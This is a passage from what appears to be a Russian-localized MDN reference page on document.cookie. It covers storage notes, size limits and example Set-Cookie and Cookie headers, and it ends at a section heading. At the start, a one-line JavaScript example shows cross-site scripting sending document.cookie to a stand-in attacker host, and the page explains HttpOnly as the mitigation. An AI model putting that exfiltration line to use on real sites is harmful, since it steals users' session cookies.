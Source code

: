 ```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

The HTTPOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through Javascript. Read more about [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## Примечания

- Starting with Firefox 2, a better mechanism for client-side storage is available - [WHATWG DOM Storage](/ru/docs/DOM/Storage).
- You can delete a cookie by simply updating its expiration time to zero.
- Keep in mind that the more you have cookies the more data will be transferred between the server and the client for each request. This will make each request slower. It is highly recommended for you to use [WHATWG DOM Storage](/ru/docs/DOM/Storage) if you are going to keep "client-only" data.
- [RFC 2965](http://www.ietf.org/rfc/rfc2965.txt) (Section 5.3, "Implementation Limits") specifies that there should be **no maximum length** of a cookie's key or value size, and encourages implementations to support **arbitrarily large cookies**. Each browser's implementation maximum will necessarily be different, so consult individual browser documentation.

The reason of the [syntax](#Syntax) of the `document.cookie` accessor property is due to the client-server nature of cookies, which differs from other client-client storage methods (like, for instance, [localStorage](/ru/docs/Web/Guide/API/DOM/Storage)):

##### The server tells the client to store a cookie

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: cookie_name1=cookie_value1
Set-Cookie: cookie_name2=cookie_value2; expires=Sun, 16 Jul 3567 06:23:41 GMT

[content of the page here]
```

##### The client sends back to the server its cookies previously stored

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: cookie_name1=cookie_value1; cookie_name2=cookie_value2
Accept: */*
```

### Использование относительных ссылок в параметре path

The [`path`](#new-cookie_path) parameter of a new cookie can accept only _absolute_ paths. If you want to use _relative_ paths, therefore, you need to convert them. The following function can translate _relative_ paths to _absolute_ paths. It is a general-purpose function, but can be of course successifully used for the [`path`](#new-cookie_path) parameter of a new cookie, as well.

##### Library
